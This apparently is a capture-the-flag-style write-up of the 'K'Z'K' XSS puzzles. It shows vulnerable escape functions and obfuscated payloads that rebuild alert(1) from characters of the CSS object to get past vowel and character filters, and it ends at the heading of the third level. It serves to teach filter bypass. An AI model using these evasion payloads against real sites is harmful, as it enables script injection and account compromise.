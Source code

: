 
```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
"+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"
```

- Output

```
<script>console.log(""+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"");</script>
```

## K'Z'K 2

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels and escape sequences in honor of K'Z'K 
    // y is only sometimes a vowel, so it's only removed as a literal
    s = s.replace(/[aeiouy]|\\((x|u00)([46][159f]|[57]5)|1([04][15]|[15][17]|[26]5))/gi, '')
    // remove certain characters that can be used to get vowels
    s = s.replace(/[{}!=<>]/g, '');
    return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
"+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"
```

- Output

```
<script>console.log(""+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"");</script>
```

## K'Z'K 3

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).
